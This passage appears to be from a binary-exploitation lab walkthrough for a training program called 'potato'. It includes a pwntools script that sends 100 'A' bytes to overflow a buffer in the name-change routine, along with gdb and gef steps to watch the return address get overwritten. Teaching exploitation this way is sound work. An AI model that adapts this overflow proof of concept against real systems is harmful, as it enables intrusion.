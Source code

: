 ```bash
virtualenv venv
. ./venv/bin/activate
pip install pwntools
python3 pwn_potato2.py
```

Change the `elf` variable in `pwn_potato2.py` such that it runs the binary `./potato` in the current
folder, and stops in line 192 of func.c, the epilogue of `change_name()`. When `./potato` asks for a new name,
the script provides 100 'A's, which will be enough to invoke a buffer overflow:

```python
#!/usr/bin/env python3

from pwn import *
import sys

elf = ELF("./potato")
context.binary = elf
context.arch = 'i386'
context.bits = 32
context.endian = 'little'
context.os = 'linux'

p = elf.process(["console"], stdin=PTY, aslr=False) # stdin=PTY for "getpass" password input
gdb.attach(p, '''
break main
break func.c:192
continue
''')

print(p.recvuntil(b"cmd> ")) # username
p.sendline(b"login")
# test user
p.sendline(b"peter")
p.sendline(b"12345")
print(p.recvuntil(b"cmd> ")) # username
# logged in
#p.interactive()
p.sendline(b"changename")
payload=b"\x41"*100
p.sendline(payload)
p.interactive()
```

The python script is executed via `python3 pwn_potato2.py`, or directly via `./pwn_potato2.py`.

In the `gef` window, we issue `ni` which steps over the next assembly statement, then press enter a few times
until the debugger halts at the `ret` statement. In the next step, the debugger will set the instruction pointer
to the content of whatever is at the address pointed to by the `$esp` register. Printing the address can be done
by `x/4bx $esp`.
